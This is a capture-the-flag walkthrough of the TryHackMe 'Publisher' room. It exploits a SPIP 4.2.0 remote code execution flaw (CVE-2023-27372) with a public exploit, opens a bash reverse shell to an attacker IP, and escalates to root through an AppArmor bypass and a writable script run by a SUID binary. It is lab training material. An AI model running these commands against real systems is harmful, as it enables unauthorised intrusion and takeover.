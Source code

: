 ```yaml
---
title: Publisher - TryHackMe Walkthrough
date: 2024-01-21 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, spip, rce, docker, privilege-escalation, tryhackme]
order: 4
image:
  path: https://github.com/user-attachments/assets/9e1919d4-6a88-4bcf-9f67-1d28e61b7cac
  alt: Publisher Room Banner
---
```


# Publisher - TryHackMe Walkthrough

## Enumeration

### Nmap Scan
We start with a comprehensive nmap scan:
```bash
sudo nmap -sC -sV -T4 {target_IP}
```

The scan reveals two open ports:
- Port 22: OpenSSH 8.2p1 Ubuntu
- Port 80: Apache httpd 2.4.41

### Web Enumeration
The website appears to be a simple blog with no obvious functionality. Running a directory scan with feroxbuster reveals the `/spip` path.

![Publisher Homepage](https://github.com/user-attachments/assets/88eb3c30-693d-4126-a487-678a845fb8d0)

Using Wappalyzer, we identify that the site is running SPIP version 4.2.0.

![SPIP Version](https://github.com/user-attachments/assets/6d83eac2-5997-4116-8602-7605e1d5e8a6)

## Initial Access

Research reveals that SPIP 4.2.0 is vulnerable to Unauthenticated Remote Code Execution (CVE-2023-27372). We can exploit this using a publicly available exploit:

```bash
git clone https://github.com/Chocapikk/CVE-2023-27372.git
pip install -r requirements.txt
python CVE-2023-27372.py -u http://{target_IP}/spip/ -v -o report.txt
```

![RCE Success](https://github.com/user-attachments/assets/a949bd7d-2bf4-426c-a726-76072a9081f6)

### Getting a Reverse Shell
We establish a reverse shell using:
```bash
bash -c "bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1"
```

![Reverse Shell](https://github.com/user-attachments/assets/a563c167-31f6-4adb-b566-cd989a0879bf)

## Lateral Movement

We discover we're in a Docker container. Manual enumeration reveals an SSH private key in the think user's home directory:

![SSH Key](https://github.com/user-attachments/assets/c2dff48d-d254-48d7-9610-408a223b381d)

We can use this key to gain SSH access as the think user:
```bash
ssh -i id_rsa think@{target_IP}
```

## Privilege Escalation

### Method 1: AppArmor Bypass
We discover AppArmor is running, which restricts file operations. After analyzing the AppArmor rules, we find we can write to `/dev/shm`:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
./test.pl
```

### Method 2: SUID Binary Exploitation
We find a SUID binary `/usr/sbin/run_container` that executes `/opt/run_container.sh`. Since we have write permissions to this script, we can modify it to add SUID to `/bin/bash`:

```bash
echo 'chmod +s /bin/bash' > /opt/run_container.sh
/usr/sbin/run_container
/bin/bash -p
```

![Root Access](https://github.com/user-attachments/assets/53ae8c26-a233-4010-bebe-2637fbf6ff54)

## Alternative Method
From the www-data shell, we can:
1. Copy `/bin/bash` to `/home/think/spip`
2. Set SUID bit
3. Make it readable by everyone
4. Execute it from the SSH session

## Conclusion
This machine demonstrates several important security concepts:
- Web application vulnerabilities (SPIP RCE)
- Docker container escape
- AppArmor bypass techniques
- SUID binary exploitation
- Multiple privilege escalation paths

Remember: Always look for multiple ways to achieve your goal, as there might be more than one path to success. 